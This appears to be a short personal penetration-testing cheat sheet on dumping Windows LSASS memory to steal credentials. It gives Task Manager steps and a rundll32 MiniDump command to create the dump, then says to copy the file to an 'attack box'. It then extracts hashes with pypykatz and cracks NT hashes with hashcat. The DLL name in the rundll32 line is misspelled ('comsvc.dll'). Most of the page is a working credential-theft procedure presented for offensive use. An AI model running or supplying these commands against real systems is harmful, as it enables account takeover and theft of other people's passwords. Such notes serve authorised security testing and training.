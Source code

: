 -- -
I believe you still need to have local admin access to dump this.
### Generate Dump File
-- -
#### GUI
If you have RDP/graphical access to a Windows system, you can use the task manager to create an LSASS dump file:

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

Find the dump file at: `C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP`

##### cmd
```powershell
# look for lsass.exe and note its PID
tasklist /svc
```
##### PowerShell
```powershell
# note its PID
Get-Process lsass

# generate lsass.dmp dump file
rundll32 C:\windows\system32\comsvc.dll, MiniDump <lsass PID> C:\lsass.dmp full
```

Then just [[Dark Arts I/File Transfer/~Home| File transfer]] dump file over to your attack box
### Dump Hashes from dump file
-- -
pypykatz is mimikatz but written in python so you can use it on whatever platform you want. 
```bash
pypykatz lsa minidump <path to dump file> 
```
### Crack NT hashes
-- -
Use hashcat to crack the NT hashes output by pypykatz
```bash
sudo hashcat -m 1000 <hash> <wordlist> 
```